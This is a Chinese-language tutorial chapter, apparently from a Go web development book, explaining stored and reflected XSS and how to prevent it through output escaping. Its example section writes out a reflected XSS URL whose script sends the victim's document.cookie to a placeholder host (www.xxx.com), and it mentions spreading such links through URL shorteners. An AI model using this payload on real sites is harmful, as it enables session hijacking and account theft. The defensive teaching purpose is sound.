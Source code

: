 ##9.3 避免XSS攻击 
随着互联网技术的发展，现在的Web应用都含有大量的动态内容以提高用户体验。所谓动态内容，就是根据用户环境和需要，Web应用程序能够输出相应的内容。动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

##什么是XSS
XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。XSS是一种经常出现在web应用中的计算机安全漏洞，它允许恶意web用户将代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取客户端的cookie或者其他网站用于识别客户端身份的敏感信息。获取到合法用户的信息后，攻击者甚至可以假冒最终用户与网站进行交互。

XSS通常可以分为两大类：一类是存储型XSS，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。这个流程简单可以描述为:恶意用户的Html输入Web程序->进入数据库->Web程序->用户浏览器。另一类是反射型XSS，主要是将脚本加入URL地址的程序参数里，参数进入程序后在页面直接输出脚本内容，用户点击类似的恶意链接就可能受到攻击。

XSS目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

##XSS的原理
XSS漏洞产生的原因是由于Web应用对用户提交请求的数据未做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，然后未加编码地输出到第三方用户的浏览器，这些攻击者恶意提交代码会被受害用户的浏览器解释执行。

接下来以反射性XSS举例说明XSS的过程：现在有一个网站，根据参数输出用户的名称，例如访问url："http://127.0.0.1/?name=astaxie"，就会在浏览器输出如下信息：

	hello astaxie

那么如果我们传递这样的url："http://127.0.0.1/?name=<script>alert('astaxie,xss')</script>",这个时候你就会发现你的浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞，那么用户如何来获取Cookie呢？也是类似上面的代码，输入如下的url："http://127.0.0.1/?name=<script>document.location='http://www.xxx.com/cookie?'%20+document.cookie</script>"，这样就可以把当前的cookie发送到指定www.xxx.com站点。这样攻击者就可以把类似这样的url进行短域名服务缩短url，然后把这些url通过途径传播开来，被攻击用户一旦点击了这样的url，相应数据就会被发送到收集cookie的脚本中。这样就获得了cookie信息，然后利用Websleuth之类的工具来检查是否能盗取那个账户。

更加详细的关于XSS的分析大家可以参考这篇文章:http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html 新浪微博XSS事件分析

##如何预防XSS
其实这个问题很简单，坚决不要相信任何用户输入并过滤所有特殊字符。这样就能消灭绝大部分的XSS攻击。

目前防御XSS主要有如下几种方式：

- 过滤特殊字符
	
	避免XSS的方法之一主要是将用户所提供的内容进行过滤，Go语言提供了HTML的过滤函数：

	text/template包下面的HTMLEscapeString、JSEscapeString等函数

- 使用HTTP头指定类型
	
	w.Header().Set("Content-Type","text/javascript")

	这样就可以让浏览器解析javascript代码，而不会是html输出。
##总结
通过上面的介绍我们发现了XSS漏洞是相当有危害的，我们在开发我们的Web应用的时候，一定要记住过滤数据，特别是在输出到客户端之前，这个是现在行之有效的防止XSS的手段。

## links
   * [目录](<preface.md>)
   * 上一节: [确保输入过滤](<9.2.md>)
   * 下一节: [避免SQL注入](<9.4.md>)

## LastModified 
   * $Id$
